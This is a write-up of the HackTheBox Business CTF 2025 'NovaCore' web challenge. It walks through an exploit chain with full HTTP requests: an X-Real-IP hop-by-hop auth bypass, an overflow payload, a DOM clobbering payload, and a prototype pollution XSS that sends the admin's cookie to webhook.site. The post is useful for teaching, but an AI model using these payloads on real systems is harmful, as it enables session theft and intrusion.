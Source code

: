 ```yaml
---
layout: post
title: NovaCore
category: HackTheBox Business CTF 2025
---
```


## Introduction: The Attack Path

This challenge was a masterclass in chaining multiple, distinct vulnerability classes to achieve a final goal. The exploit path was non-linear and required careful setup of multiple components before a final trigger could be pulled. The core of the challenge was bypassing a strict Content-Security-Policy (CSP) with a `nonce` to achieve XSS on the admin account. This was made possible by manipulating the logic of a front-end JavaScript file (`dashboard.js`) through a combination of DOM Clobbering and Prototype Pollution, which was itself set up using a memory corruption vulnerability.

The full chain can be summarized as follows:
1.  **Auth Bypass:** Become `sys_admin` using a hop-by-hop header bypass.
2.  **Memory Corruption:** As `sys_admin`, create two trades. Use a memory overflow to creaate trade as `admin` user.
3.  **Payload Planting (Part 1):** Edit the now admin-owned trade to inject a DOM Clobbering payload. This payload won't execute directly but will manipulate the DOM for a later script.
4.  **Payload Planting (Part 2):** Use an unauthenticated `/front_end_error/new/{name}` endpoint to store a JSON object containing a Prototype Pollution payload.
5.  **Triggering the Chain:** When the admin bot visit the compromised trade, the DOM Clobbering payload trigger the catch error in `dashboard.js`.
6.  **CSP/Nonce Bypass:** The script's error handling logic is manipulated:

    * DOM Clobbering makes the script check `window.UI_DEV_MODE` pass.
    * A path traversal, also injected via DOM Clobbering, forces the script to `fetch` our pre-planted Prototype Pollution payload from `/front_end_error/view/{name}` instead of reporting a new error.
    * The fetched JSON is parsed and merged, triggering the Prototype Pollution.
    * The polluted prototype value is passed into an `eval()`, executing our XSS payload and exfiltrating the admin's session cookie.
8.  **Remote Code Execution:** Use the stolen admin cookie to authenticate to a plugin upload endpoint and upload a specially crafted TAR/ELF polyglot file to bypass file validation and gain RCE.

---

## Step-by-Step Exploit Breakdown

### Step 1: Authentication Bypass via Hop-by-Hop Headers

Initial access was gained by exploiting how the application's reverse proxy handled hop-by-hop headers. By including `X-Real-IP` in the `Connection` header, the proxy would strip this header before forwarding the request to the backend. However, it would still process the `X-Real-IP` header itself. By setting `X-Real-IP: 127.0.0.1`, the backend application trusted the header and granted us `sys_admin` privileges.

The key headers were:
```http
X-Real-IP: 127.0.0.1
Connection: close, X-Real-IP
```

### Step 2: Gaining Control via Memory Corruption

With `sys_admin` access, we could create trades. The vulnerability lay in the `edit_trade` function, which was susceptible to a overflow in the `symbol` parameter. This allowed us to overwrite the data of an adjacent trade object in memory.

The request to perform the overflow looked like this:

```http
POST /api/edit_trade HTTP/1.1
Host: 83.136.252.78:51714
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
X-Real-IP: 127.0.0.1
Connection: close, X-Real-IP
Content-Length: 387
Content-Type: application/json

{
    "trade_id": "0b8618b8-d93d-44d0-ac5f-aaf69b7e3e31", 
    "symbol": "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAuser:1:trade:cb474955-6761-494e-a050-aa7993403fd6"
 
}
```

### Step 3: Planting the Payloads

Now that we controlled an admin's trade, we needed to plant two different payloads.

#### A. The DOM Clobbering Payload

We edited the trade to include an HTML payload in its `symbol`.

```http
POST /api/edit_trade HTTP/1.1
Host: 83.136.252.78:51714
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
X-Real-IP: 127.0.0.1
Connection: close, X-Real-IP
Content-Length: 266
Content-Type: application/json

{
    "trade_id": "cb474955-6761-494e-a050-aa7993403fd6", 
    "symbol": "<form/name=\"getElementById\"/value=\"test\"></form><a/id=\"UI_DEV_MODE\"></a><anything/id=\"LOG_LEVEL\"/int=\"../view/random\"></anything>",
    "action": "BUY",
    "price": "1.0"
}
```

#### B. The Prototype Pollution Payload

Next, we used the `/front_end_error` endpoint to store our final XSS payload within a JSON structure.

```http
POST /front_end_error/new/random HTTP/1.1
Host: 83.136.252.78:51714
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
X-Real-IP: 127.0.0.1
Connection: close, X-Real-IP
Content-Length: 117
Content-Type: application/json

{"__proto__":{"length":"(location='https://webhook.site/xxxxxxx/?c='+document.cookie)"}}
```

### Step 4: Triggering the Exploit Chain

With all the pieces in place, the exploit triggers automatically when the admin user visits their dashboard and views the compromised trade. This causes the chain of events described previously: the DOM is clobbered, a controlled error occurs, the error handler fetches our Prototype Pollution payload via a path traversal, the `Object.prototype` is polluted, and finally, `eval()` executes our code, stealing the admin's cookie.

### Step 5: Post-Exploitation to RCE

With the admin's session cookie, we authenticated to the application as the admin. We discovered a plugin upload feature at a `/run_plugin` endpoint. To bypass the backend `tar` and `readelf` checks, we crafted a polyglot file that was simultaneously a valid TAR archive and a valid ELF executable. Uploading and executing this polyglot file bypassed the validation and gave us Remote Code Execution on the server.

---

## Conclusion

The `web_novacore` challenge was a formidable and deeply rewarding experience. It brilliantly wove together an array of advanced web vulnerabilities, demanding a thorough understanding of not just each individual flaw, but precisely how they could be chained together. The reliance on DOM Clobbering to pivot to Prototype Pollution as a CSP bypass was particularly ingenious. This was a true "final boss" web challenge.

---
For the full official write-up, see: [Official Write up HTB](https://github.com/hackthebox/business-ctf-2025/tree/master/web/novacore).
